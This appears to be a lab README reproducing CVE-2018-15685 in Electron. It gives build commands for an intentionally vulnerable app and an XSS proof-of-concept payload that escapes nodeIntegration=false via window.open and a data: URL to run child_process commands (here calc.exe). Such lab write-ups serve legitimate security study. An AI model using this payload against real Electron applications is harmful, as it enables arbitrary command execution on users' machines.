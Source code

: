 # Electron WebPreferences Remote Command Execution Vulnerability (CVE-2018-15685)

Electron is an open source library developed by Github to build cross-platform desktop applications using HTML, CSS and JavaScript. Electron does this by merging Chromium and Node.js into the same runtime environment and packaging it into applications for Mac, Windows and Linux.

When Electron sets `nodeIntegration=false` (default), the JavaScript in the page cannot access the built-in library of node.js. CVE-2018-15685 bypasses this limitation, enabling arbitrary commands to be executed if the user can execute JavaScript (such as when accessing a third-party page or an XSS vulnerability exists in the app).

Reference link:

- https://electronjs.org/blog/web-preferences-fix
- https://www.contrastsecurity.com/security-influencers/cve-2018-15685

## Compiling APP

Execute the following command to compile an application that contains a vulnerability:

```
Docker-compose run -e PLATFORM=win64 --rm electron
```

The value of PLATFORM is the operating system running the application. The options are: `win64`, `win32`, `mac`, `linux`.

After the compilation is complete, execute the following command to start the web service:

```
Docker-compose run --rm -p 8080:80 web
```

At this point, visit `http://your-ip:8080/cve-2018-15685.tar.gz` to download the compiled application.

## Recurring vulnerabilities

Open the app locally:

![](1.png)

Click Submit, the content in the input box will be displayed in the app, and there is obviously an XSS vulnerability.

We submit `<img src=1 onerror="require('child_process').exec('calc.exe')">` and find that there is no feedback, the reason is `nodeIntegration=false`.

At this point, submit the POC (Windows):

```
<img src=1 onerror="window.open().open('data:text/html,<script>require(\'child_process\').exec(\'calc.exe\')</script>' );">
```

Visible, calc.exe has been successfully popped up:

![](2.png)